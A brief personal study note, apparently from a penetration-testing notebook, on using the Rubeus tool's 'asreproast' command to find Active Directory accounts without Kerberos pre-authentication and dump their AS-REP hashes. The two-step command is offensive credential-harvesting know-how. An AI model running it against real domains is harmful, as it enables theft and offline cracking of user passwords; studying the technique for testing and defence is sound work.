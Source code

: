 ```yaml
---
title: Dumping KRBASREP5 Hashes w/ Rubeus
updated: 2023-04-01T21:49:28.0000000+04:00
created: 2023-04-01T21:41:57.0000000+04:00
---
```


Dumping KRBASREP5 Hashes w/ Rubeus
Saturday, April 1, 2023
9:41 PM
1.) cd Downloads - navigate to the directory Rubeus is in

2.) Rubeus.exe asreproast - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

![image1](image1-144.png)

